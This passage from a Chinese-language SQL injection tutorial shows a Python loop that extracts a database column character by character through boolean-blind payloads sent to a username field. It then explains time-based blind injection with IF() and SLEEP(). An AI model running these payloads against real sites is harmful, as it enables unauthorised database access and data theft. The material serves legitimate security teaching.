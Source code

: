 ```py

for i in range(1, max_len + 1):
    for char in charset:
        print(f'正在第{i}次尝试字符{char}')
        payload = f"1' AND SUBSTR((SELECT {column_name} FROM {table_name}),{i},1)='{char}'#"
        response = requests.post(url, data={'username': payload})
        if not '输入的用户名不存在' in response.text:
            value += char

print(value)
```

> <img src="./IMG3/45.png">

##### 时间盲注

时间盲注不仅依靠`LENGTH()`、`SUBSTR()`、`ASCII()`等函数，还需要`IF()`以及`SLEEP()`，通过页面响应时间的不同来判断后台命令的执行情况

| 函数    | 使用方法                                     | 参数                                                         | 含义                                             |
| ------- | -------------------------------------------- | ------------------------------------------------------------ | ------------------------------------------------ |
| IF()    | IF(condition, value_if_true, value_if_false) | condition：判断条件<br />value_if_true：条件为TRUE时执行的语句<br />value_if_false：条件为FALSE时执行的语句 | 进行判断，若为真，执行第二参数，为假执行第三参数 |
| SLEEP() | SLEEP(seconds)                               | seconds：秒数                                                | 延迟指定时间，单位为秒                           |

先来看看`IF()`与`SLEEP()`的实际使用

```sql
SELECT IF(SUBSTR((DATABASE()),1,1)>'a',SLEEP(3),1);
```

> <img src="./IMG3/46.png">

